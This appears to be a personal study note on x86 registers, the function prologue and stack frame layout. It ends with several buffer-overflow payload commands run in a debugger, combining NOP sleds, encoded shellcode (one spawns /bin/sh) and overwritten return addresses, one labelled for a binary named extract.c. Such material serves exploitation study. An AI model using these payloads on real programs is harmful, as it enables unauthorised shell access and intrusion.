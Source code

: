 Quickly accessible locations available to a cpu, consist of a small amount of fast storage.

[article](https://www.eecg.utoronto.ca/~amza/www.mindsec.com/files/x86regs.html)

# notation

- if preceded with e (stands for extended), it's a 32 bit register
- if preceded with r (idk what is stands for) it's a 64 bit register

# General registers

- AX register (eax in 32 rax in 64 bits) : Accumulator, used for i/o and arithmetic ops
- EBX/RBX : optionally used a base pointer
- ECX/RCX : counter register, used for loop counters and for shifts (whatever it means)
- EDX/RCX : Data register, I/O and in arithmetic operations for multiply and divide operations involving large values

# Pointer registers

- EIP/RIP : instruction pointer, offset address of the next instruction
- ESP/RSP : Points to the top of the stack
- EBP/RBP : Stack base pointer aka frame pointer.
  - s stack frame : EBP points to its base (its beginning in the high memory address), and ESP points to its top,

## Assembly function prologue

- push the current value of ebp into the stack (it contains the base pointer of the previous stack frame)
- mov the value of esp into ebp, thus creating a new stack frame.

```s
   0x0000054d <+0>:	    push   ebp       # <---- 1. Stores previous EBP
   0x0000054e <+1>:	    mov    ebp,esp   # <---- 2. Creates new Stack Frame
   0x00000550 <+3>:	    push   ebx
   0x00000551 <+4>:	    sub    esp,0x404 # <---- 3. Moves ESP to the top, by subbing the number of bytes required for local vars
```

- for getting out of a stack frame, esp is replaced with the current ebp, and ebp is popped off the stack  
  [stack overflow answer](https://stackoverflow.com/a/3700219/14500132)

- anatomy of a stack frame
  - ESP | Buffer space (where local vars are stored) | EBP | EIP
- esp at the top, and eip at the bottom of the stack

```
  run $(python -c 'print ((520-95)*"\x90" + "\xda\xc2\xb8\xee\x8a\x6d\x66\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x12\x31\x42\x17\x83\xc2\x04\x03\xac\x99\x8f\x93\x01\x45\xb8\xbf\x32\x3a\x14\x2a\xb6\x35\x7b\x1a\xd0\x88\xfc\xc8\x45\xa3\xc2\x23\xf5\x8a\x45\x45\x9d\x73\xb6\xb5\x5c\xe4\xb4\xb5\x24\x9d\x31\x54\x68\x3b\x12\xc6\xdb\x77\x91\x61\x3a\xba\x16\x23\xd4\x2b\x38\xb7\x4c\xdc\x69\x18\xee\x75\xff\x85\xbc\xd6\x76\xa8\xf0\xd2\x45\xab"+"\xd6\xd8\xff\xff" ) ' )


  run $(python -c 'print ((520-95)*"\x90" + "\xdb\xc8\xbe\xd6\x75\x07\xe6\xd9\x74\x24\xf4\x58\x33\xc9\xb1\x12\x31\x70\x17\x83\xc0\x04\x03\xa6\x66\xe5\x13\x77\x52\x1e\x38\x24\x27\xb2\xd5\xc8\x2e\xd5\x9a\xaa\xfd\x96\x48\x6b\x4e\xa9\xa3\x0b\xe7\xaf\xc2\x63\x87\x4f\x35\x72\x1f\x52\x35\x0e\xb6\xdb\xd4\x5e\x2e\x8c\x47\xcd\x1c\x2f\xe1\x10\xaf\xb0\xa3\xba\x5e\x9e\x30\x52\xf7\xcf\x99\xc0\x6e\x99\x05\x56\x22\x10\x28\xe6\xcf\xef\x2b"+"\x04\xd7\xff\xff" ) ' )


  run $(python -c 'print ((520-25)*"\x90" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"\xe4\xd6\xff\xff" ) ' )

Payload for extract.c

 run $(python -c 'print ((524-25)*"\x90" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"\x50\xd7\xff\xff" )')


run $(python -c 'print "\x55" *524 + "B"*4 ')
0xffffd75e
```
